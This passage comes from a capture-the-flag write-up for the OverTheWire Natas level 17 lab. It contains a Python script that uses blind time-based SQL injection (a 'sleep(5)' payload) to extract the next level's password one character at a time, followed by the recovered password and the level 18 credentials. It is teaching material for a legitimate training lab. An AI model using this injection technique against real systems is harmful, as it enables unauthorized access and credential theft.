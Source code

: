 Use a Python script:

```python
import requests
import string

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
natas17_username = "natas17"
natas17_password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

chars = string.digits + string.ascii_letters


def find_letter(letter: str, password: str) -> str:
    body = f"username=natas18\" and password like binary '{password + letter}%' and sleep(5) #"
    resp = requests.post(url, auth=(
        natas17_username, natas17_password), headers=headers, data=body)
    if resp.elapsed.total_seconds() > 3:
        return letter
    return None


def find_password() -> str:
    password = ""
    while len(password) < 32:
        for letter in chars:
            next_letter = find_letter(letter, password)
            if next_letter is not None:
                password += letter
    return password


if __name__ == "__main__":
    password = find_password()
    print(f"Found password: {password}")
```

This gives:

```bash
$ python natas17.py
Found password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```

## Natas 18

### Credentials

Username: natas18

Password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

URL: http://natas18.natas.labs.overthewire.org
